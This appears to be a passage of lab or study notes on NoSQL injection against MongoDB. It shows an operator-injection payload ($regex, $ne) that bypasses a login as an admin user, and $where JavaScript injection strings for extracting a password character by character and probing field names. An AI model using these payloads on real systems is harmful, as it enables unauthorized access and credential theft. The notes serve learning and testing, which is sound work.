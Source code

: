 * The username name for the admin user was "admin4ygjye2f" which is why regex was needed to solve the challenge.

```
{
	"username":{
		"$regex":"admin.*"
	},
	"password":{
		"$ne":"invalid"
	}
}
```


<br><br>

### Exploiting syntax injection to extract data 

* In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's $where operator and mapReduce() function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database. 

* Take the following query, where we can control the input value of 'admin'

```
{"$where":"this.username == 'admin'"}
```


* The following payloads may allow you to extract the admin's password one character at a time and confirm whether the password contains digits:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

```
admin' && this.password.match(/\d/) || 'a'=='b
```

<br>

* Identify field names:

* Check if password field exists:

```
username=admin'+%26%26+this.password!%3d'
```

* Decoded payload:

```
username=admin' && this.password!='
```

* If you know that a certain field exists we can use test cases to identify how application responds to valid/invalid requests:
